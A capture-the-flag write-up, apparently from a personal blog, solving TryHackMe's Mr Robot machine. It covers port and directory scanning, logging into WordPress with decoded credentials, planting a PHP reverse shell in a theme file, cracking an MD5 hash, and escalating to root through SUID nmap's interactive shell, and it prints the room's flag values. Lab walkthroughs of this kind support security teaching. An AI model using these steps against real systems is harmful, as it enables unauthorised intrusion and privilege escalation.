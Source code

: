 # NOTE: This was a blog from *vipin.xyz* see [this](https://www.vipin.xyz/blog/archive)

# Mr Robot CTF [Writeup]

One of the top-tier challenges on TryHackMe, revered as a GOAT in THM Machines.

Released: 2024-03-3

## Foreword

I've come to understand that many people don't grasp my write-ups due to a knowledge gap. Therefore, I'll be explaining every step along the way. Hope you enjoy as I spend a lot of time on these writeups!

## Nmap Scan

- What is Nmap? Nmap is a tool used for checking open ports in a server. This is typically the first step when tackling a machine and that is what I am doing below.

```bash
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.199.158
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 23:06 EST
Nmap scan report for 10.10.199.158
Host is up (0.097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.96 seconds
```

- We now know that there is a closed SSH port, an open HTTP port indicating the presence of a website accessible through a browser, and port 443 running both SSL and HTTP.

## Accessing the website

![Image showing the website](blog/mrrobotctf/website.png 'Fig.1')
<div style={{ textAlign: 'center' }}>
  <small>Fig.1</small>
</div>

- Wow, most rooms don't have such a well built challenge site. After some poking and prodding, I don't seem to see anything on the homepage. Next step is Dirsearch...

## Dirsearch

- A **Directory Search** involves brute-forcing to discover existing directories, helping you understand your attack surface.

```bash
──(vipin㉿vipin)-[~]
└─$ dirsearch -u 10.10.199.158 --exclude-status 301,400,403,404,408
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                      
 (_||| _) (/_(_|| (_| )                                                                               
                                                                                                      
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/vipin/reports/_10.10.199.158/_24-03-03_00-09-46.txt

Target: https://10.10.199.158/

[00:09:47] Starting:                                                                                  
[00:11:37] 302 -    0B  - /dashboard  ->  https://10.10.199.158/wp-admin/   
[00:11:37] 302 -    0B  - /dashboard/  ->  https://10.10.199.158/wp-admin/  
[00:11:51] 200 -    0B  - /favicon.ico                                      
[00:12:10] 200 -  504KB - /intro                                            
[00:12:15] 200 -  158B  - /license                                          
[00:12:15] 200 -  158B  - /license.txt                                      
[00:12:18] 302 -    0B  - /login  ->  https://10.10.199.158/wp-login.php    
[00:12:18] 302 -    0B  - /login/  ->  https://10.10.199.158/wp-login.php   
[00:12:55] 200 -   64B  - /readme                                           
[00:12:55] 200 -   64B  - /readme.html                                      
[00:12:58] 200 -   41B  - /robots.txt                                       
[00:13:08] 200 -    0B  - /sitemap                                          
[00:13:08] 200 -    0B  - /sitemap.xml.gz                                   
[00:13:08] 200 -    0B  - /sitemap.xml
[00:13:39] 302 -    0B  - /wp-admin/  ->  https://10.10.199.158/wp-login.php?redirect_to=https%3A%2F%2F10.10.199.158%2Fwp-admin%2F&reauth=1
[00:13:39] 200 -   21B  - /wp-admin/admin-ajax.php
[00:13:39] 500 -    3KB - /wp-admin/setup-config.php
[00:13:40] 200 -    0B  - /wp-config.php                                    
[00:13:40] 200 -    0B  - /wp-content/                                      
[00:13:41] 200 -    0B  - /wp-content/plugins/google-sitemap-generator/sitemap-core.php
[00:13:41] 500 -    0B  - /wp-content/plugins/hello.php                     
[00:13:41] 500 -    0B  - /wp-includes/rss-functions.php                    
[00:13:41] 200 -    1KB - /wp-login                                         
[00:13:41] 200 -    1KB - /wp-login.php
[00:13:41] 200 -    1KB - /wp-login/                                        
[00:13:41] 302 -    0B  - /wp-signup.php  ->  https://10.10.199.158/wp-login.php?action=register
[00:13:41] 200 -    0B  - /wp-cron.php                                      
[00:13:43] 405 -   42B  - /xmlrpc                                           
[00:13:43] 405 -   42B  - /xmlrpc.php
                                                                             
Task Completed
```

## Key 1

- Looking through all the directories we found with **Dirsearch**, in *robots.txt* has the first key for us

![Image showing the robots.txt](blog/mrrobotctf/robotstxt.png 'Fig.2')
<div style={{ textAlign: 'center' }}>
  <small>Fig.2</small>
</div>

## Key 2

- When we look in */license*, we find the string "ZWxsaW90OkVSMjgtMDY1Mgo=", it seems to be base64 (A type of encoding).

![Image showing the output](blog/mrrobotctf/base64output.png 'Fig.3')
<div style={{ textAlign: 'center' }}>
  <small>Fig.3</small>
</div>

- Let's login with those credentials */login*

![Image showing we r in](blog/mrrobotctf/dashboard.png 'Fig.4')
<div style={{ textAlign: 'center' }}>
  <small>Fig.4</small>
</div>

- And we are in! Lets exploit it...

- I started by using [this **PHP Reverse Shell** script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and editing the 404 theme file with the PHP code and I got user access!

```bash
daemon@linux:/$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

- Ruh roh, can't go in. Lets crack that password though.

![Image showing cracked password](blog/mrrobotctf/hashcracked.png 'Fig.5')

```bash
daemon@linux:/$ su robot
su robot
su: must be run from a terminal
daemon@linux:/$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz             
```

- And I did get the key after logging in as *`robot`*

## Key 3

- I ran ```find / -user root -perm -4000 -exec ls -ldb {} \;``` to see exploitable SUID Binaries (These are binaries/programs that have `sudo` permissions) and NMAP was one of the results. Using GTFOBINS I found that you can run ```nmap --interactive``` and also run  ```!sh``` to get a root shell. 

```bash
robot@linux:/$ nmap --interactive               
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv  tmp  var
boot  etc  initrd.img  lib64  media       opt  root  sbin  sys  usr  vmlinuz
# cd root
cd root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

### MACHINE PWN'ED 😎
